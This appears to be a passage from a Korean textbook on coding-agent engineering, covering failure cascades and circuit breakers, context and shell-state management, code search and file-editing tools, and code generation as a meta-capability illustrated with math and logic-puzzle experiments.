단일 지점 회로 차단기보다 더 교묘한 위험은 **죽음의 나선**이다. 오류 경로에서 시작된 논리가 LLM을 호출했다가 다시 실패하면서 연쇄된다. 실제로 있었던 연쇄를 살펴보자. 컨텍스트 초과 오류로 에이전트가 중지되면, 에이전트 종료 시 자동으로 실행되는 정리 논리인 중지 훅이 작동해 “종료할 때 코드를 커밋”한다. 훅은 커밋 메시지를 작성하려고 LLM을 호출하고, 컨텍스트가 다시 초과되어 훅이 또 작동한다. 방어책은 두 부분으로 나뉜다. 오류 경로에서 모델을 호출하는 모든 부작용을 비활성화한다. 자동 메모리 추출 같은 보조 기능 하나를 잃는 편이 낫다. 그리고 재귀 깊이 카운터를 사용해 남아 있는 연쇄를 감지하고 끊는다. 마지막으로 모든 자동 메커니즘 위에는 최대 차례 수, 세션 예산 상한, 연속 실패가 임계값을 넘을 때 사람에게 상향하는 전역 종료 및 상향 조건이 있다. 4장의 거부 회로 차단기가 한 예다.

1장의 생각해 볼 문제로 돌아가면, 에이전트는 도구 결과가 없을 때뿐 아니라 같은 도구 오류의 반복, 환각으로 만든 호출, 핵심 상태를 잃는 컨텍스트 압축, 해결 불가능한 작업 때문에도 루프에 갇힐 수 있다. 감지는 “오류 분류 + 패턴 인식”, 복구는 “단계적 상향”, 종료는 “회로 차단기 + 전역 상한 + 사람에게 상향”에 의존한다. 이 모두를 합친 것이 “에이전트가 영원히 실행될 수 있다”는 문제에 대한 하네스의 완전한 답이다. 이 메커니즘이 해결하는 것은 “모델 능력 부족”이 아니라 “경계 조건에서의 시스템 견고성”이다. 모델은 계속 강해지겠지만 네트워크는 끊기고, 프로세스는 멈추며, 사용자는 예상하지 못한 행동을 한다. 더 근본적으로 말하면 **에이전트의 신뢰성은 실수 여부가 아니라 모든 오류 유형에 대응하는 감지, 복구, 종료 경로가 있는지에 따라 결정된다.**

### 코딩 에이전트 구현 팁

앞에서 설명한 워크플로는 이상적인 모습이다. 이를 실무에서 작동시키려면 사고의 품질을 떨어뜨리지 않으면서 응답 속도를 높이고 컨텍스트 소비를 줄이는 몇 가지 구체적인 구현 기법이 필요하다. 2장과 4장의 범용 에이전트 기법을 프로그래밍 영역에 적용한 것이다.

**병렬 도구 호출, 스트리밍 실행, 연쇄 중단.**

전통적인 에이전트 구현은 도구 호출을 생성하고, 실행하고, 결과를 받은 다음, 후속 단계를 결정하는 직렬 방식으로 작동하는 경우가 많다. 이처럼 엄격한 대기열 처리는 많은 시간을 낭비한다.

현대의 코딩 에이전트는 스트리밍 응답을 충분히 활용해야 한다. 이 메커니즘은 2장에서 모델의 출력 순서를 설명할 때 소개했다. 첫 번째 도구 호출의 매개변수 생성이 끝나고 검증을 통과하면, 모델이 후속 도구 호출을 생성할 때까지 기다리지 않고 즉시 실행을 시작할 수 있다. 예를 들어 모델이 한 번의 추론에서 코드 검색, 설정 파일 확인, 로그 읽기라는 세 도구 호출을 출력해야 한다고 하자. 첫 호출은 매개변수 생성과 검증이 끝나는 즉시 실행을 시작해 나머지 두 호출의 생성과 겹칠 수 있다. 독립된 호출도 대기열에 넣지 않고 병렬로 실행할 수 있다. 이렇게 실행을 겹치면 엔드투엔드 지연 시간이 크게 줄어 에이전트가 더 민첩하게 응답한다.

병렬 실행의 이면에는 장애 처리가 있다. 각 도구 정의는 동시 실행 지원 여부를 선언해야 하며, 실패 안전을 위해 기본값은 지원하지 않음으로 둔다. 호출 하나가 실패하면 연쇄 중단 메커니즘이 같은 배치에서 시작한 다른 호출 가운데 그 결과에 의존하는 호출을 종료한다. 독립된 호출이나 상위 작업에는 영향을 주지 않는다. 이는 하네스 엔지니어링 절의 “장애 경계 제어” 원칙을 구체적으로 구현한 것이다.

**세밀한 컨텍스트 관리.**

코딩 에이전트의 근본적인 어려움은 코드베이스가 대체로 큰 반면 모델의 컨텍스트 창은 제한되어 있다는 점이다. 고급 모델이 수백만 토큰을 지원한다고 해도 전체 코드베이스를 컨텍스트에 집어넣는 것은 경제적이지도, 필요하지도 않다. 지능적인 컨텍스트 관리는 여러 수준에서 이루어져야 한다.

파일 읽기 수준에서 에이전트가 항상 파일 전체를 읽어서는 안 된다. 큰 파일에서는 수천 줄을 모두 불러오는 대신 100~150번째 줄만 읽는 것처럼 특정 줄 범위를 읽는 기능을 도구가 지원해야 한다. 더 중요한 점은 콘텐츠를 반환할 때 줄 번호를 붙여 각 코드 줄 앞에 실제 줄 번호를 표시하는 것이다. 단순해 보이는 이 설계는 큰 가치를 제공한다. 모델이 “`src/main.py`의 42번째 줄”을 정확히 참조할 수 있어 모호성이 줄고 후속 편집 작업의 신뢰성이 높아진다.

명령 실행 수준에서는 터미널 출력도 신중하게 처리해야 한다. 컴파일이나 테스트에서 수천 줄의 출력이 나올 수 있으며, 이를 모두 컨텍스트에 주입하면 예산이 금세 바닥난다. 여기서는 4장에서 소개한 긴 출력의 잘라내기 및 영속화 메커니즘을 널리 사용한다. 보통 오류의 맥락이 담긴 출력의 첫 몇 줄과 오류 요약이 담긴 마지막 몇 줄을 남기고, 중간은 한 줄짜리 자리표시자로 바꾼다. 전체 출력은 필요할 때 볼 수 있도록 임시 파일에 저장했다는 사실도 알린다.

**환경 정보의 동적 주입.**

이는 2장의 에이전트 상태 표시줄 기법이 코딩 에이전트에 집약되어 나타나는 사례다. 범용 에이전트와 달리 코딩 에이전트는 실행 환경의 상태에 크게 의존한다. 추론할 때마다 다음의 핵심 환경 정보를 에이전트 상태 표시줄 형식으로 컨텍스트 끝에 주입해야 한다.

- **현재 작업 디렉터리**: 경로를 정확히 참조하게 한다.
- **Git 브랜치**: 메인 브랜치와 기능 브랜치 중 어디서 작업하는지 알려 준다.
- **최근 커밋 기록**: 프로젝트의 변화 과정을 이해하게 한다.
- **스테이징 전후 변경 사항 개요**: 어떤 변경을 했는지 알려 준다.

이 정보를 정적 시스템 프롬프트에 하드코딩하면 KV 캐시 효율이 무너지므로 동적으로 생성해 뒤에 덧붙이는 에이전트 상태 표시줄로 주입해야 한다. 그러면 에이전트가 “환경 인식”을 갖추고 낡은 가정이 아니라 현재 상태에 관한 정확한 이해를 바탕으로 매번 결정을 내린다.

**명령 실행 환경의 상태 지속성.**

코드와 상호작용하는 많은 작업은 디렉터리 변경, 가상 환경 활성화, 환경 변수 설정, 백그라운드 서비스 시작 같은 환경 상태에 의존한다. 명령을 매번 새 셸에서 실행하면 이 상태를 모두 잃는다. 에이전트가 방금 `cd`로 프로젝트 디렉터리로 이동했더라도 다음 명령은 셸의 기본 디렉터리에서 다시 시작하므로 같은 설정을 반복해야 한다. 더 나쁜 점은 Python 가상 환경 활성화 같은 일부 작업의 효과는 현재 셸 세션 안에서만 유효해 세션 사이에 전달할 수 없다는 것이다.

따라서 에이전트를 시작할 때 지속형 터미널 세션을 만들고 전체 상호작용 동안 활성 상태로 유지해야 한다. 모든 명령을 이 공유 터미널에서 실행하면 작업 디렉터리, 환경 변수, 세션 상태가 보존된다. 이 설계는 보통 오랫동안 열어 둔 터미널 창에서 일하는 사람 개발자의 작업 습관과 더 잘 맞는다. 물론 병렬 작업을 지원하려면 에이전트가 격리된 터미널을 새로 시작할 수도 있어야 하지만, 지속 세션을 기본 모드로 삼아야 한다.

**즉각적인 구문 피드백 메커니즘.**

여기서도 에이전트 상태 표시줄 기법의 가치가 드러난다. 에이전트가 코드를 수정한 뒤 사용자가 명시적으로 테스트를 요청할 때까지 기다렸다가 구문을 검사해서는 안 된다. 더 효율적인 방법은 파일 쓰기 작업이 끝나는 즉시 도구 계층이 해당 린터나 구문 검사기를 자동으로 실행하고, 결과를 도구 반환값의 일부로 에이전트에 제공하는 것이다. 구문 오류가 발견되면 IDE가 짝이 맞지 않는 괄호를 즉시 표시하듯 에이전트는 바로 다음 추론 라운드에서 상세한 오류 정보를 확인한다. 즉각적인 피드백 메커니즘은 오류를 수정하는 비용을 크게 낮춘다. 테스트를 실행할 때까지 기다려 문제를 발견하는 대신 오류가 생긴 순간 바로 고칠 수 있기 때문이다.

병렬 처리와 스트리밍, 컨텍스트 관리, 환경 인식, 상태 지속성, 즉각적인 피드백이라는 다섯 구현 기법이 함께 효율적인 코딩 에이전트의 기술적 토대를 이룬다. 이들은 고립된 최적화 지점이 아니라 서로를 강화하는 설계 결정이며, 에이전트가 숙련된 개발자처럼 매끄럽게 일하게 한다는 하나의 목표를 향한다.

### 코딩 에이전트의 검색 도구

대규모 코드베이스에서 관련 코드를 찾는 것은 코딩 에이전트 작업의 출발점이다. 그림 5-3은 서로 보완하는 여러 검색 도구를 비교하고, 성숙한 코딩 에이전트가 작업의 성격에 따라 검색 방법을 선택하는 방식을 보여 준다.



**정규식 내용 일치**(grep/ripgrep): 파일 내용을 한 줄씩 훑어 패턴과 일치하는 부분을 찾는 가장 전통적인 검색 방법이다. 에이전트가 함수 이름, 변수 이름, 오류 메시지처럼 찾을 정확한 텍스트를 알 때 모든 출현 위치를 빠르고 정확하게 찾을 수 있다. 특수 기호로 텍스트 패턴을 표현하는 문법인 정규식은 복잡한 패턴까지 포착한다. 예를 들어 `def handle.*`은 `handle`로 시작하는 모든 함수 정의와 일치한다. 리터럴 텍스트뿐 아니라 특정 구조에 맞는 코드도 찾을 수 있다. 실무에서는 잡음을 줄이기 위해 Python 파일만 검색하는 파일 유형 필터와 테스트 디렉터리를 제외하는 경로 패턴 필터도 지원해야 한다. 근본적인 한계는 텍스트 일치만 찾고 의미는 이해하지 못한다는 것이다. “사용자 인증”을 검색해도 로그인 논리를 처리하지만 “인증”이라는 단어가 없는 함수는 절대 찾지 못한다.

**파일 이름 패턴 일치**(glob): 파일 내용은 무시하고 파일 시스템의 경로 구조에서 패턴과 일치하는 파일만 찾는다. 예를 들어 `**/*.test.ts`는 모든 TypeScript 테스트 파일을 재귀적으로 찾고, `src/components/**/Button.tsx`는 components 아래의 어떤 깊이에 있든 Button.tsx를 찾는다. 파일을 열어 읽을 필요가 없어 내용 검색보다 훨씬 빠르며, 에이전트가 프로젝트 구조를 탐색할 때 가장 먼저 사용한다. 전체 파일 시스템을 훑어 프로젝트의 구성 체계를 빠르게 파악할 수 있다.

**의미 기반 코드 검색**: 앞의 두 가지 정확 일치 방식과 달리 질의와 코드의 “의미”를 이해하려 한다. 두 가지 핵심 문제를 해결해야 한다.

- **구조 인식 청킹**: 코드는 엄격한 구문 구조를 가지므로 고정된 문자 수로 무작정 자르지 말고 함수, 클래스, 메서드 같은 완전한 의미 단위로 나눠야 한다.
- **하이브리드 검색**(3장에서 이 기술 스택을 자세히 설명한다): 벡터 임베딩, 즉 밀집 임베딩은 표현이 다르지만 의미가 비슷한 코드를 찾는 데 뛰어나다. 예를 들어 “사용자 신원 확인”을 검색해도 `check_credentials`라는 이름의 함수를 찾을 수 있다. 반면 단어 빈도와 문서 길이를 바탕으로 한 고전적 검색 알고리즘인 BM25를 사용하는 키워드 일치는 함수와 변수 이름을 정확히 찾는 데 뛰어나다. 둘을 병렬로 실행한 뒤 후보 결과의 관련성을 세밀하게 평가하는 교차 인코더인 리랭커가 결과를 병합하고 정렬해 서로 보완하는 검색 범위를 제공한다.

의미 검색은 낯선 코드베이스에서 “데이터베이스와 상호작용”하거나 “사용자 입력 검증을 처리”하는 코드를 찾는 것과 같은 탐색적 작업에 특히 적합하다.

그러나 의미 검색용 임베딩 인덱스를 구축할 가치가 있는지를 두고 업계에서는 분명한 논쟁이 있다. Claude Code 같은 터미널 기반 에이전트는 의도적으로 **임베딩 인덱스를 만들지 않고** 에이전틱 grep + glob만으로 즉석 검색한다. 코드가 바뀌면서 낡아 가는 인덱스를 유지하지 않아도 되고, 인덱싱 인프라 전체가 필요 없으며, 코드 임베딩을 제3자 서비스로 보내는 위험도 피한다. Cursor 같은 IDE 기반 도구는 정반대의 접근법을 택한다. 대규모 코드베이스에서 의미는 관련 있지만 표현이 다른 코드 조각을 빠르게 찾는 **파일 간 의미 재현율**을 위해 인덱스 구축 비용을 감수하고 임베딩 인덱스를 사용한다. 두 경로의 절충은 본질적으로 “인프라 및 데이터 외부 전송 비용”과 “파일 간 의미 재현율의 이점”을 비교하는 문제다.

**심볼 수준 정의 및 참조 조회**: IDE의 “정의로 이동”과 “모든 참조 찾기” 기능을 사용해 심볼의 정의와 참조를 구분한다. 이 기능은 편집기와 언어 분석 엔진 사이의 통신 표준인 언어 서버 프로토콜(LSP, Language Server Protocol)을 통해 제공된다. 예를 들어 42번째 줄의 `authenticate`는 함수 정의이고 189번째 줄의 출현은 호출임을 식별하지만, 텍스트 검색은 해당 문자열이 들어 있는 모든 줄만 찾을 수 있다. 이는 코드 리팩터링에서 특히 중요하다. 함수 이름은 주석이나 문자열에도 나타날 수 있으므로 이름을 바꿀 때 텍스트 검색에만 의존해서는 안 된다. 심볼 검색으로 정의와 실제 호출 지점을 모두 정확히 찾아야 한다.

이 네 검색 방식은 서로 보완하는 도구 상자를 이루며 실무에서는 흔히 조합해 사용한다. 먼저 의미 검색으로 관련 모듈을 찾고, 정규식 일치로 특정 코드 줄의 정확한 위치를 찾은 다음, 심볼 검색으로 호출 체인을 추적한다. “거친 수준에서 세밀한 수준으로, 의미에서 구문으로” 나아가는 점진적 전략이다.

### 코딩 에이전트의 파일 편집 도구

파일 편집의 어려움은 작업 자체가 아니라 LLM을 사용해 시스템에 “무엇을 어떻게 바꿀지” 효율적이고 신뢰성 있게 전달하는 데 있다. 그림 5-4는 다섯 가지 파일 편집 방식을 비교하며, 인간의 언어 표현과 기계의 정밀한 실행 사이에 존재하는 근본적 긴장을 보여 준다.



**Diff 설명 + 적용 모델**: 모델이 파일 편집 방법을 직접 지정하는 대신 변경 설명을 생성한다. 이는 “어떤 줄을 삭제하고 어떤 줄을 추가했는지” 보여 주는 `git diff` 명령의 출력 형식과 비슷한 diff 텍스트일 수도 있고, “여기는 변경하지 않음” 같은 주석으로 수정하지 않은 부분을 건너뛰는 생략 표시가 있는 코드 골격일 수도 있다. 이 설명은 보통 더 작고 빠른 별도의 LLM인 전문 “적용 모델(Apply Model)”에 전달된다. 적용 모델은 설명과 원본 파일을 병합해 완전한 새 파일을 만든다. 이처럼 관심사를 분리하면 주 모델은 고수준 코드 논리에, 적용 모델은 저수준 텍스트 작업에 집중할 수 있다. 단순한 구현의 취약점은 병합 단계에 있다. 변경 설명과 실제 파일 코드가 조금 다를 때 같은 위치를 가리키는지 판단해야 하며, 비슷한 코드 조각이 여러 개면 잘못된 위치에 병합할 수 있다. Cursor는 이 접근법을 계속 발전시킨 대표 사례다. 주 모델이 생략 표시가 있는 코드 골격을 출력하면 특별히 학습한 빠른 적용 소형 모델이 전체 파일을 다시 작성하고, 원본 파일 내용을 초안으로 삼아 병렬 검증하는 추측 디코딩이 병합 속도를 초당 수천 토큰까지 높인다. 엔지니어링 투자를 통해 이 접근법의 신뢰성과 속도를 확보한 것이다.

**기존 문자열 → 새 문자열**: Claude Code가 채택한 방식이다. 모델이 바꿀 원본 텍스트인 기존 문자열과 이를 대체할 새 문자열을 제공하면 프레임워크가 단순한 문자열 찾기 및 바꾸기를 수행한다. 예측 가능하고 투명하다는 장점이 있다. 기존 문자열이 파일에 존재하고 하나뿐이면 성공하고, 그렇지 않으면 실패하므로 모호함이 없다. 단점은 큰 코드 블록을 삭제할 때 원본 내용을 전부 출력해야 하며, 문자 하나만 달라도 일치에 실패한다는 것이다. 같은 코드가 여러 번 나오면 더 긴 컨텍스트를 제공해 구분해야 한다.

**줄 번호 지정**(기존 줄 번호 → 새 문자열): 모델이 “X~Y번째 줄을 삭제하고 새 내용을 삽입한다”라고 지정한다. 줄 번호는 정확하고 모호하지 않으며, 큰 블록을 삭제할 때도 숫자 두 개만 있으면 된다. 그러나 모델은 특히 매우 긴 파일에서 줄 번호를 “셀” 때 오류를 내기 쉽다. 실무에서는 파일을 읽을 때 각 줄에 줄 번호 주석을 붙여 이 문제를 줄인다. 하지만 편집할 때마다 뒤따르는 줄 번호가 바뀌므로 여러 편집을 병렬로 수행하기 어렵다.

**Vim형 편집 명령**: Vim 편집기의 명령 체계를 빌려 복사, 잘라내기, 붙여넣기 같은 다양한 작업을 지원한다. 함수를 한 위치에서 다른 위치로 옮기는 등 코드 구조를 재편할 때 매우 효율적이다. 그러나 명령 구문에는 상당한 학습 부담이 따른다. 가장 강력한 모델은 잘 처리하지만 작은 모델은 눈에 띄게 더 많은 실수를 한다.

**문자열 시작 + 끝 일치**(기존 문자열 시작 + 끝 → 새 문자열): 기존 문자열 바꾸기 방식을 개선한 것으로 볼 수 있다. 모델은 기존 문자열 전체를 출력할 필요 없이 삭제할 내용의 첫 몇 줄과 마지막 몇 줄만 제공하고 중간 부분은 생략한다. 이 조합이 파일 안에서 하나뿐이라면 프레임워크가 시작과 끝 쌍으로 바꿀 영역을 찾는다. 이 방식은 텍스트 바꾸기의 신뢰성과 줄 번호 방식의 효율성을 결합한다. 큰 코드 블록을 삭제할 때 수백 줄의 원본 코드를 출력할 필요 없이 경계만 보여 주면 된다. 또한 추상적인 줄 번호가 아니라 여전히 내용 일치를 기반으로 하므로 모델이 오류를 낼 위험이 비교적 낮다.

**실용적 조언.** 주류 코딩 에이전트는 각각 대표 제품이 있는 두 진영으로 나뉜다. Claude Code는 신뢰성을 우선하고 구현이 단순하며 추가 모델이 필요 없는 “기존 문자열에서 새 문자열로” 방식을 택했다. Cursor는 전용 고속 적용 모델의 학습 및 추론 비용을 지불하는 대신 더 높은 편집 처리량을 얻어 적용 모델 방식을 극한까지 발전시켰다. 자체 에이전트를 만든다면 “기존 문자열에서 새 문자열로” 방식이 가장 안전한 출발점이다. 대규모 편집에서는 “문자열 시작 + 끝 일치”가 더 경제적인 절충안이다. 줄 번호 방식은 편집기가 실시간 줄 번호 매핑을 유지하고 매 편집 후 모델에 다시 제공하는 등 IDE와 깊이 통합했을 때만 신뢰할 수 있다. 그렇지 않으면 줄 번호 드리프트 때문에 실패한다.

## 코드: 범용 에이전트의 메타 능력

앞 절에서는 아키텍처부터 도구 구현과 하네스 엔지니어링까지 신뢰할 수 있는 코딩 에이전트를 구축하는 방법을 살펴봤다. 그러나 코드 생성의 가치는 프로그램 작성에 그치지 않는다.

> **“메타 능력”이란 무엇인가?** 일반 능력은 질문에 답하거나 특정 API를 호출하거나 텍스트를 생성하는 등 에이전트가 구체적인 일을 수행하는 능력이다. **메타 능력**은 “다른 능력을 만들어 낼 수 있는” 능력이다. 에이전트는 모든 능력을 미리 구축하지 않고도 메타 능력으로 새 도구, 새 제약, 새 표현 형식을 즉석에서 작성해 작업을 완료한다. 코드 생성이 바로 그런 메타 능력이다. 정밀하고 실행 가능하며 조합할 수 있으므로 새 도구(스크립트, API 호출 순서), 새 제약(어서션, 검증 규칙), 새 표현 형식(HTML 양식, PPT, 동영상 프레임)을 만들 수 있다.

따라서 에이전트 시스템에서 코드의 역할은 “프로그램 작성”을 훨씬 넘어선다. 다음 여섯 절에서는 이 메타 능력이 프로그래밍 너머에 적용되는 여섯 방향을 하나씩 보여 준다. (1) 사고 도구—자연어 대신 코드로 엄밀하게 사고한다. (2) 비즈니스 규칙 제약—코드로 정책을 고정하고 모델 환각을 피한다. (3) 멀티미디어 생성—코드로 PPT, 동영상, 시각화를 만든다. (4) 시스템 어댑터—코드로 서로 다른 API를 연결한다. (5) 생성형 UI—코드로 양식과 인터페이스를 동적으로 생성한다. (6) 부트스트래핑—코드로 새로운 에이전트를 만든다.

이 여섯 방향은 단순한 병렬 목록이 아니다. 메타 능력을 적용하는 대상을 기준으로 안에서 밖으로 나아간다.

1.  **사고 자체**—오류가 발생하기 쉬운 자연어 사고를 코드로 대체한다(사고 도구).
2.  **비즈니스 규칙**—모호한 정책을 실행 가능한 제약으로 인코딩한다(비즈니스 규칙 제약).
3.  **콘텐츠 표현**—PPT, 동영상, 시각화 산출물을 생성한다(멀티미디어 생성).
4.  **시스템 인터페이스**—서로 다른 API를 연결하고 변화하는 데이터 형식에 자동으로 적응한다(시스템 어댑터).
5.  **사용자 인터페이스**—양식과 상호작용형 인터페이스를 동적으로 구성한다(생성형 UI).
6.  **에이전트 자체**—코드로 새로운 에이전트를 만들거나 복구해 부트스트래핑을 실현한다.

안에서 밖으로 나아갔다가 마지막에 에이전트 자체로 돌아오는 이 흐름을 따르면 메타 능력인 코드의 통합된 가치를 더 쉽게 볼 수 있다. 8장에서는 이 토대 위에서 어떤 운영 증거가 자기 수정을 촉발해야 하는지, 수정 후보가 테스트·배포·롤백을 거쳐 새 버전에 들어가는 방식을 살펴본다.

### 사고 도구로서의 코드

LLM은 자연어를 이해하고 생성하는 능력이 놀랍지만 정확한 계산, 기호 조작, 엄밀한 논리적 추론에는 근본적으로 약하다. 모델의 사고는 본질적으로 확률적이고 근사적인 반면 수학과 논리 문제에는 결정론적이고 정확한 답이 필요하기 때문이다. 구체적인 비교 하나로 이를 확인해 보자.

```
문제: "한 반에 학생이 40명 있다. 60%는 수학을, 45%는 물리학을, 25%는 둘 다 수강한다.
          수학은 듣지 않고 물리학만 듣는 학생은 몇 명인가?"

순수 자연어 사고(오류 가능):                            코드 기반 사고(정확하고 검증 가능):
"수학 수강 60% = 학생 24명,                             math = int(40 * 0.60)    # 24
 물리학 수강 45% = 학생 18명,                           phys = int(40 * 0.45)    # 18
 둘 다 수강 25% = 학생 10명,                            both = int(40 * 0.25)    # 10
 물리학만 = 24 - 10 = 학생 14명"                        only_phys = phys - both  # 8
→ 수학 수강 인원에서 잘못 빼서 오답                    → print(only_phys)  # 8 ✓
```

LLM은 문제 이해와 코드 작성을 담당하고, 코드 인터프리터는 정확한 계산을 담당하게 하면 각자의 강점을 살릴 수 있다.

Mathematica를 만든 Stephen Wolfram은 이에 관해 깊이 있는 통찰을 제시했다. LLM이 등장하기 전에도 정확한 수학 계산이 가능한 시스템은 이미 있었다. 이들은 근삿값 대신 수학 기호로 표현식을 처리하는 **기호 계산(Symbolic Computation)**을 사용했다. 예를 들어 일반 계산기는 $\sqrt{2}$를 1.414로 근사하지만 기호 계산 시스템은 정확한 형태인 $\sqrt{2}$를 유지하고 필요할 때만 소수로 변환한다. Wolfram이 만든 Wolfram Alpha가 이런 시스템이다. 사용자가 수학 문제를 입력하면 정확한 답을 반환한다. 그러나 자연어 이해가 상당히 취약하고 적용 범위도 좁다. 제한된 표현만 인식하는 내장 문법 파서에 의존하므로 표현이 조금만 달라져도 파싱에 실패할 수 있고, 개방형 다단계 사고는 처리할 수 없다. LLM은 이 빈틈을 정확히 메운다. 다양한 자연어 표현을 이해하는 데 뛰어나지만 정확한 계산에는 약하다. 새로운 협업 모델에서는 LLM이 사용자의 자연어 질문을 이해하고 그 안의 수학적·논리적 구조를 파악해 Mathematica 언어나 Python의 SymPy 라이브러리 같은 형식 언어로 변환한다. 그런 다음 전용 기호 계산 엔진이나 제약 풀이기에 넘겨 실행하고 정확한 결과를 얻는다.

> **실험 5-1 ★★: 코드 생성 도구로 수학 문제 해결 능력 향상**
>
> **실험 목표**: 코드 인터프리터의 도움을 받을 때 에이전트의 수학적 사고 정확도가 향상되는지 검증한다.
>
> **기술적 접근법**: sympy, numpy, scipy 같은 수학 라이브러리가 설치된 Python 샌드박스를 에이전트에 제공한다. 에이전트가 수학 문제를 만나면 이를 Python 코드로 형식화한다. 기호 계산인 미적분과 방정식 풀이에는 sympy, 수치 최적화에는 scipy, 행렬 연산에는 numpy를 사용한다. 생성한 코드를 샌드박스에서 실행해 정확한 결과를 반환한다.
>
> **인수 기준**: 미국 초청 수학 경시대회(American Invitational Mathematics Examination)를 본뜬 AIME 유형 문제로 평가한다. 순수 사고의 연쇄와 코드 보조 사고의 정확도를 비교하며, 코드 보조 모드가 훨씬 높은 정확도를 달성해야 한다. 코드가 수학 라이브러리를 올바르게 사용하는지, 풀이 과정이 논리적으로 명확한지도 확인한다.
>

> **실험 5-2 ★★: 코드 생성 도구로 논리적 사고 능력 향상**
>
> **실험 목표**: 제약 풀이 코드의 도움을 받아 논리적으로 사고하는 에이전트의 능력을 평가한다.
>
> **기술적 접근법**: python-constraint 라이브러리가 설치된 코드 인터프리터를 에이전트에 제공한다. 에이전트는 기사와 악당 문제 같은 논리 퍼즐을 형식적인 제약 모델로 변환한다. 변수인 각 섬 주민의 정체를 식별하고, “기사는 진실을 말한다” 같은 규칙을 제약으로 인코딩한 뒤 풀이기를 호출해 조건을 만족하는 할당을 찾는다.
>
> **인수 기준**: [K&K 퍼즐 데이터셋](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves)으로 평가한다. 코드 보조 모드가 순수 사고 모드보다 훨씬 높은 90% 이상의 풀이 정확도를 달성해야 한다.
>

이 실험은 더 일반적인 패턴도 드러낸다. 모델과 하네스 사이에는 절충 관계가 있다. 모델이 충분히 강하면 하네스는 얇아질 수 있다. 모델이 스스로 올바르게 사고하므로 코드 풀이기가 주는 이점이 줄어든다. 모델이 약할수록 하네스는 더 많은 일을 해야 한다. 핵심 논리적 사고를 코드와 제약 풀이기에 맡겨 정확성을 보장한다. 이 실험이 대비를 크게 드러내려고 일부러 약한 모델을 사용하는 이유도 여기에 있다. 약한 모델은 순수 사고에서 계속 계산을 틀리지만 코드의 도움을 받으면 정확도가 크게 높아진다. 충분히 강한 사고 모델은 순수 사고만으로 모든 퍼즐을 푸는 경우가 많아 코드 보조의 이점이 거의 0으로 수렴한다. 따라서 하네스의 두께는 모델의 능력 경계가 어디에 있는지에 따라 달라져야 한다. 에이전트 기법을 평가할 때 쉽게 놓치는 전제다. 같은 하네스라도 성능이 다른 모델과 결합하면 정반대 결론을 뒷받침할 수 있다.

### 비즈니스 규칙의 제약으로서의 코드

이 절은 이 장 앞부분의 하네스 엔지니어링 절에 직접 답한다. 하네스의 핵심 원칙 가운데 하나는 “제약은 문서가 아니라 코드로 구현한다”는 것이다. 자연어 문서의 규칙을 실행 가능한 코드로 바꿔 권고성 지침이 아닌 시스템 행동의 강제 제약으로 만든다. 코드 생성은 에이전트가 이 변환 과정을 자율적으로 완료할 수 있게 한다.

자연어로만 설명한 비즈니스 규칙, 워크플로, 의사결정 논리에는 모호함이 가득하다. “합리적인 환불 요청”이란 무엇인가? 어떤 상황을 “긴급”으로 보는가? 경계를 자연어로 정의하기는 어렵다. “구매 후 7일 이내 환불 가능”은 명확해 보이지만 달력 기준 7일인가, 영업일 7일인가? “구매”는 주문 시점인가, 배송 시점인가? 반면 코드는 모호하지 않고 실행 가능한 지식 표현이다. 실행되거나 오류가 날 뿐 그 중간은 없다.

**복잡한 비즈니스 규칙의 정확한 표현.**

**자연어 규칙과 코드화된 규칙: 서로 대체하지 않고 보완한다**

규칙을 시스템 프롬프트에 작성하면 모델이 사용자에게 **정책을 설명**하고, “취소 대신 다시 예약”처럼 **정책에 맞는 대안을 찾아내며**, 도구를 호출하기 전에 실현 가능성을 예비 판단할 수 있다.

